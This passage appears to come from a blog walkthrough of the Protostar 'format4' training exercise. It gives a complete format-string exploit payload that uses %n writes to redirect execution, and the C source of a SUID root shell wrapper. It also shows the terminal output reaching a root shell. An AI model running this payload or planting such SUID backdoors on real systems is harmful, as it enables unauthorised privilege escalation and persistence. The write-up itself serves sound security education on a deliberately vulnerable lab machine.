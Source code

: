 The 8 `n`'s we need to supply to the `%nu` format string parameters are 124,
178, 128, 260, 168, 79, 237 and 203.

Now, what do we want `system()` to call? As with all `stdin` based exploit
vectors, it is a bit of an ugly hack to get the standard `system("/bin/sh")`
to work. Like in my previous blog post on the stack exploitation exercises, I
prefer to write a root owned SUID shell wrapper, `shell.c`.

```c
#include <stdlib.h>
#include <unistd.h>

int main(int argc, char **argv, char **envp) {
  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/bin/bash");
}
```

We compile the C code.

```shell
user@protostar:~$ gcc shell.c -o shell
```

Putting everything together, we get the following. You will see that we have a
`\x0a` in there which is a NULL byte. This tells the first `fgets()` call to
stop reading from `stdin`. We follow that by the command string we want
`system()` to run on the second call to `vuln()`.

```shell
user@protostar:~$ python -c "print '\x01\x01\x01\x01\x24\x97\x04\x08\x01\x01\x01\x01\x25\x97\x04\x08\x01\x01\x01\x01\x26\x97\x04\x08\x01\x01\x01\x01\x27\x97\x04\x08\x01\x01\x01\x01\x1c\x97\x04\x08\x01\x01\x01\x01\x1d\x97\x04\x08\x01\x01\x01\x01\x1e\x97\x04\x08\x01\x01\x01\x01\x1f\x97\x04\x08' + '%x.'*3 + '%124u%n%178u%n%128u%n%260u%n%168u%n%79u%n%237u%n%203u%n\x0a/bin/chown root:root /home/user/shell; /bin/chmod 4755 /home/user/shell'" | /opt/protostar/bin/format4
200.b7fd8420.bffff5d4.                                                                                                                    16843009                                                                                                                                                                          16843009                                                                                                                        16843009                                                                                                                                                                                                                                                            16843009                                                                                                                                                                16843009                                                                       16843009                                                                                                                                                                                                                                     16843009                                                                                                                                                                                                   16843009
sh: : not found
sh: : not found
^C^CSegmentation fault

user@protostar:~$ ./shell
root@protostar:~# whoami
root
```
